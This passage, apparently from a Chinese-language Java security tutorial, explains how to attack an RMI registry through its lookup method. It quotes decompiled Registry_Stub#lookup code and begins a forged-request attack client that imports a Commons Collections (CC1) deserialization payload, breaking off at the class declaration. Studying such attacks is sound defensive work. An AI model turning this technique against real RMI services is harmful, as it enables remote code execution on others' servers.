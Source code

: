 
##### lookup和unbind

在利用bookup和unbind时和bind以及rebind不一样的是只能传入String类型，以lookup为例，这里我们可以通过伪造连接请求进行利用，即自己实现一个lookup方法来进行攻击，先看一下原始的lookup：

```java
// Registry_Stub#lookup 
public Remote lookup(String var1) throws AccessException, NotBoundException, RemoteException {
        try {
            RemoteCall var2 = super.ref.newCall(this, operations, 2, 4905912898345647071L);

            try {
                ObjectOutput var3 = var2.getOutputStream();
                var3.writeObject(var1);
            } catch (IOException var18) {
                throw new MarshalException("error marshalling arguments", var18);
            }

            super.ref.invoke(var2);

            Remote var23;
            try {
                ObjectInput var6 = var2.getInputStream();
                var23 = (Remote)var6.readObject();
            } catch (IOException var15) {
                throw new UnmarshalException("error unmarshalling return", var15);
            } catch (ClassNotFoundException var16) {
                throw new UnmarshalException("error unmarshalling return", var16);
            } finally {
                super.ref.done(var2);
            }

            return var23;
        } catch (RuntimeException var19) {
            throw var19;
        } catch (RemoteException var20) {
            throw var20;
        } catch (NotBoundException var21) {
            throw var21;
        } catch (Exception var22) {
            throw new UnexpectedException("undeclared checked exception", var22);
        }
    }
```

参照该方法实现攻击代码

```java
import org.example.payload.CC1;
import sun.rmi.server.UnicastRef;

import java.io.ObjectOutput;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

import java.rmi.server.Operation;
import java.rmi.server.RemoteCall;
import java.rmi.server.RemoteObject;


public class Client {
```